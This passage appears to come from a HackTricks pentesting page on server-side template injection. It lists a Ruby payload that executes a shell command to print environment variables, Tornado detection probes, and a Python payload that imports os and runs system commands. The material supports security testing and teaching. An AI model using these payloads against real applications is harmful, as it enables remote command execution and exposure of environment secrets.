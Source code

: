 
```
{ %x|env| }
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python)

Python

Check out the following page to learn tricks about **arbitrary command execution bypassing sandboxes** in python:

[Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python)

Tornado (Python)

- `{{7*7}} = 49`
 
- `${7*7} = ${7*7}`
 
- `{{foobar}} = Error`
 
- `{{7*'7'}} = 7777777`
 



```
{% import foobar %} = Error
{% import os %}

{% import os %}






{{os.system('whoami')}}
{{os.system('whoami')}}
```

**More information**

- [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)
 

### 
